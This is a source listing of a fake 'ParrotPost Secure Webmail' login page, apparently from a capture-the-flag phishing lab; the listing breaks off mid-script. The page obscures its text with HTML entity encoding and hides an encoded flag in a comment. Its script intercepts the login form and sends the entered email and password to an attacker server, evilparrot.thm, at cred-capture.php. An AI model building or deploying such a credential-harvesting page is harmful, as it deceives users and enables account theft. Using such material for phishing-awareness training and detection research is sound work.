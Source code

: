 ```
<!DOCTYPE html><html><head><title>ParrotPost Login</title><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0"><style>body{font-family:Arial,sans-serif;}input[type=password],input[type=text]{width:100%;}body{background-color:#f2f2f2;}h1,[class~=forgot-password]{text-align:center;}form,input[type=password],button,input[type=text]{padding-left:.208333333in;}h1{margin-top:.520833333in;}form{background-color:#fff;}input[type=text],input[type=password]{padding-bottom:9pt;}form,input[type=password],button,input[type=text]{padding-right:.208333333in;}[class~=forgot-password]{margin-top:1.25pc;}input[type=text],input[type=password]{padding-top:9pt;}[class~=forgot-password]{font-size:.75pc;}input[type=password],input[type=text]{margin-left:0;}input[type=password],input[type=text]{margin-bottom:6pt;}input[type=text],input[type=password]{margin-right:0;}form{border-radius:.3125pc;}form{box-shadow:0 0 7.5pt rgba(0,0,0,.2);}input[type=text],input[type=password]{margin-top:6pt;}input[type=password],input[type=text]{display:inline-block;}input[type=text]{border-left-width:.75pt;}form{width:18.75pc;}form{margin-left:auto;}input[type=text]{border-bottom-width:.75pt;}input[type=text]{border-right-width:.75pt;}form{margin-bottom:37.5pt;}input[type=text]{border-top-width:.75pt;}input[type=text]{border-left-style:solid;}input[type=text]{border-bottom-style:solid;}input[type=text]{border-right-style:solid;}input[type=text]{border-top-style:solid;}form{margin-right:auto;}input[type=text]{border-left-color:#ccc;}input[type=text]{border-bottom-color:#ccc;}input[type=text]{border-right-color:#ccc;}input[type=text]{border-top-color:#ccc;}form{margin-top:37.5pt;}input[type=text]{border-image:none;}form{padding-bottom:15pt;}input[type=text],input[type=password]{border-radius:.041666667in;}form{padding-top:15pt;}input[type=password],input[type=text]{box-sizing:border-box;}button{background-color:#4caf50;}button{color:#fff;}button{padding-bottom:10.5pt;}button{padding-top:10.5pt;}button{margin-left:0;}button{margin-bottom:6pt;}button{margin-right:0;}button{margin-top:6pt;}button{border-left-width:medium;}button{border-bottom-width:medium;}button{border-right-width:medium;}input[type=password]{border-left-width:.75pt;}input[type=password]{border-bottom-width:.75pt;}input[type=password]{border-right-width:.75pt;}input[type=password]{border-top-width:.75pt;}input[type=password]{border-left-style:solid;}button{border-top-width:medium;}input[type=password]{border-bottom-style:solid;}button{border-left-style:none;}input[type=password]{border-right-style:solid;}input[type=password]{border-top-style:solid;}input[type=password]{border-left-color:#ccc;}input[type=password]{border-bottom-color:#ccc;}input[type=password]{border-right-color:#ccc;}input[type=password]{border-top-color:#ccc;}button{border-bottom-style:none;}button{border-right-style:none;}button{border-top-style:none;}input[type=password]{border-image:none;}button:hover{background-color:#45a049;}button{border-left-color:currentColor;}button{border-bottom-color:currentColor;}label[class~=checkbox]{display:inline-block;}button{border-right-color:currentColor;}label[class~=checkbox]{margin-bottom:.75pc;}button{border-top-color:currentColor;}button{border-image:none;}button{border-radius:3pt;}button{cursor:pointer;}button{width:100%;}</style></head><body><h1>&#80;&#97;&#114;&#114;&#111;&#116;&#80;&#111;&#115;&#116;&#32;&#83;&#101;&#99;&#117;&#114;&#101;&#32;&#87;&#101;&#98;&#109;&#97;&#105;&#108;&#32;&#76;&#111;&#103;&#105;&#110;</h1><form id="&#108;&#111;&#103;&#105;&#110;&#45;&#102;&#111;&#114;&#109;"><label for="&#101;&#109;&#97;&#105;&#108;">&#69;&#109;&#97;&#105;&#108;&#58;</label><input type="&#116;&#101;&#120;&#116;" id="&#101;&#109;&#97;&#105;&#108;" name="&#101;&#109;&#97;&#105;&#108;" value="&#112;&#102;&#101;&#97;&#116;&#104;&#101;&#114;&#115;&#64;&#102;&#108;&#121;&#105;&#110;&#103;&#45;&#115;&#101;&#99;&#46;&#116;&#104;&#109;" placeholder="&#69;&#110;&#116;&#101;&#114;&#32;&#121;&#111;&#117;&#114;&#32;&#101;&#109;&#97;&#105;&#108;&#32;&#97;&#100;&#100;&#114;&#101;&#115;&#115;"><label for="&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;">&#80;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#58;</label><input type="&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;" id="&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;" name="&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;" placeholder="&#69;&#110;&#116;&#101;&#114;&#32;&#121;&#111;&#117;&#114;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;"><button type="&#115;&#117;&#98;&#109;&#105;&#116;" id="&#108;&#111;&#103;&#105;&#110;&#45;&#98;&#117;&#116;&#116;&#111;&#110;">&#76;&#111;&#103;&#105;&#110;</button><div class="&#102;&#111;&#114;&#103;&#111;&#116;&#45;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;"><a href="&#35;">&#70;&#111;&#114;&#103;&#111;&#116;&#32;&#80;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#63;</a></div><!-- VEhNe2QwdWJsM18zbmMwZDNkfQo= --></form><script>const form=document.getElementById("login-form");const loginButton=document.getElementById("login-button");let errorMessage=null;form.addEventListener("submit",(event)=>{/*prevent the form from submitting normally*/event.preventDefault();/*get the username and password input values and set them to variables*/const email=document.getElementById("email").value;const password=document.getElementById("password").value;/*create a new HTTP request object for our evil server*/const xhr=new XMLHttpRequest();/*encode the email and password using encodeURIComponent*/const encodedEmail=encodeURIComponent(email);const encodedPassword=encodeURIComponent(password);/*add the encoded email and password as query parameters in the GET request*/const url=`http://evilparrot.thm:8080/cred-capture.php?email=${encodedEmail}&password=${encodedPassword}`;xhr.open("GET",url,true);/*send the GET request to the evil server*/xhr.send();if(errorMessage){errorMessage.innerHTML="S
```